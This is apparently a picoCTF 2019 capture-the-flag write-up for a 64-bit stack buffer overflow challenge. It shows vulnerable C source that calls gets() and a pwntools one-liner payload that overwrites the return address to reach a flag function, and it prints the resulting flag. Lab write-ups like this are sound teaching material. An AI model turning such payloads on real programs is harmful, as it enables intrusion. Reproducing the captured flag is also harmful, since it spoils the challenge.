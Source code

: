 # NewOverFlow-1

Points : 200

# Question

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](vuln). You can find it in /problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668 on the shell server. [Source](vuln.c).

# Hint 

Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

# Solution

Looking at the source code :

```C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];							<----- we have new buffer size 64
  gets(buf);								<----- using gets which is vulnerable
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();								<---- vuln get call
  return 0;
}
```

exactly like we did in [OverFlow1](https://github.com/netanelc305/picoCTF-2019/blob/master/Binary%20Exploitation/OverFlow%201/README.md) the only difference is we're now dealing with 64bits so we need to change our payload accordingly.

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE*2)+FLAG_RETURN_ADDRESS+FLAG_STARTING_ADDRESS```

let's get "flag" function address using gdb this time we need both start and return .

![](newover1.png)

start = 0x0000000000400767
return = 0x00000000004007cb

```python -c "from pwn import *;print 'A'*(64+4*2)+p64(0x00000000004007cb)+p64(0x0000000000400767)"|./vuln```

![](newover2.png)

# Flag
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}

